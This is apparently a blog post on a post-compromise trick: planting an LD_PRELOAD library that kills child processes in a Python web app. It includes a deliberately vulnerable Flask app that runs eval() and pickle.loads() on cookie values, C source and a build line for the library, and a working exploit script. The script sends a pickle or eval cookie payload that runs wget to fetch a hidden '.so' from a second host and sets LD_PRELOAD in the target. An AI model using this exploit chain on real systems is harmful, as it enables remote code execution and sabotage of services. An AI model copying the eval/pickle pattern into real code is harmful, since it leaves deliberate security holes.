 ```yaml
---
title:  "Cripple Python Vulnerabilities with LD_PRELOAD"
tags:
  - Python
  - post-compromise
  - LD_PRELOAD
related: false
---
```


A novel use for LD_PRELOAD when exploiting Python vulnerabilities

On Linux the LD_PRELOAD environmental variable (or /etc/ld.so.preload file) will load the specified shared library files first, selectively overriding functions of any other library found in the LD_LIBRARY_PATH.  This is useful for debugging, patching bugs, and [escalating privileges to root](http://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html).

A novel idea is to use LD_PRELOAD to cripple certain Python vulnerabilities.  Consider the following vulnerable Flask application that allows arbitrary execution of Python code within the process.

```python
from base64 import b64decode
import pickle
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'PUT'])
def index():
    try:
        if 'eval' in request.cookies:
            eval(request.cookies['eval'])

        if 'pickle' in request.cookies:
            pickle.loads(b64decode(request.cookies['pickle']))
    except Exception as e:
        print(e)


app.run()
```

Unlike PHP and Java, Python allows the process environmental variables to change at runtime.  Child process inherit the environment from the parent, so by setting the LD_PRELOAD variable we can poison processes created via the vulnerability.  By overriding the `_init` [function](http://www.faqs.org/docs/Linux-HOWTO/Program-Library-HOWTO.html#INIT-AND-CLEANUP) it is possible to kill new child process when the linker attempts to load shared libraries.

```c
#include <stdlib.h>

void
_init() {
    exit(0);
}
```

```bash
gcc -fPIC -shared -nostartfiles -o .so src.c
```

To cripple the vulnerability, download the shared library and set the LD_PRELOAD environment variable.

```python
from base64 import b64encode
import pickle
import requests
import os


class Exploit(object):
    def __reduce__(self):
        return eval, ('__import__("os").system("wget http://10.0.0.2/.so -O /tmp/.so") & __import__("os").environ.__setitem__("LD_PRELOAD", "/tmp/.so")',)


if True:
    requests.post('http://10.0.0.3:5000/', cookies={'pickle': b64encode(pickle.dumps(Exploit())).decode()})
else:
    requests.post('http://10.0.0.3:5000/', cookies={'eval': '__import__("os").system("wget http://10.0.0.2/.so -O /tmp/.so") & __import__("os").environ.__setitem__("LD_PRELOAD", "/tmp/.so")'})
```
